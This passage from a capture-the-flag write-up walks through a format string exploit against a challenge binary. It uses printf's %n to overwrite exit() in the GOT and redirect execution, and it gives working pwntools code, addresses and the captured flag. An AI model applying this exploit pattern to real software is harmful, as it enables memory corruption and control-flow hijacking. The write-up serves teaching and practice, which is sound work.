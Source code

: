 ```c
Please enter report number or press 0 to return to menu:
1
Report details:
0x61616161
```
With this knowledge, it is possible to use `printf()` to overwrite memory byte-by-byte, using the `%n` modifier. From the `printf` manpage:
```
n       The number of characters written so  far  is  stored  into  the  integer
        pointed  to  by  the  corresponding argument.  That argument shall be an
        int *, or variant whose size matches the (optionally)  supplied  integer
        length modifier.
```
Let's say we want to write the value `50` to address `0x61616161`. Using the input for `name`, we'll insert the address `0x61616161` as a packed string (this is "aaaa" as seen previously). To write the value itself, we would use the format string `%50c%11$hhn`. `%50c` means "print 50 characters"; this is done to set the `number of characters written so far` to 50. `%11$hhn` means "write the number of characters written so far, as a single byte, to the 11th argument of `printf()`". As obtained prior, the 11th argument will be the first 4 bytes of `name`: 0x61616161.

We'll generalise this exploit pattern to a python function<sup>4</sup>, so that it'll be easy enough to repeat.
```python
from pwn import * # please install pwntools if you have not
r = remote('yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg', 30121)
def write_byte(addr: int, value: int, report_ID=[1]) -> None:
  # send format string
  r.sendlineafter('choice: \n', '1')
  r.sendlineafter('report:\n', '%{}c%11$hhn'.format(value))
  # send name
  r.sendlineafter('choice: \n', '2')
  r.sendlineafter('name: \n', pack(addr))
  # printf() the report & return to main menu
  r.sendlineafter('menu: \n', str(report_ID[0]))
  report_ID[0] += 1
  r.sendlineafter('menu: \n', '0')
```
Now that `printf()` is settled, we can move on to the exploit proper.
## Final steps
Finding the location of `exit()` in the GOT is easy<sup>5</sup>: just use pwntools:
```python
from pwn import *
context.binary = 'beta_reporting' # run this script in the same directory as be-challenge-2/
exit = context.binary.got['exit']
desired = context.binary.symbols['unknownfunction']
print(hex(exit), hex(desired))  # the result here will be 0x804b028 0x80488f7
```
The result of this script will be `0x804b028 0x80488f7`. To overwrite `exit()` with `unknownfunction()`, all you need to do is to overwrite the last two bytes<sup>6</sup>:
```python
write_byte(exit, desired&0xff)
write_byte(exit+1, (desired&0xff00)>>8)
```
After that, the challenge is finished with options 4 and 5:
```python
r.sendlineafter('choice: \n', '4')
r.sendlineafter('choice: \n', '5')
print(r.recvuntil('}'))
```
That's that<sup>7</sup>.
## Flag
`govtech-csg{c0v1d_5y5tem_d0wn!}`
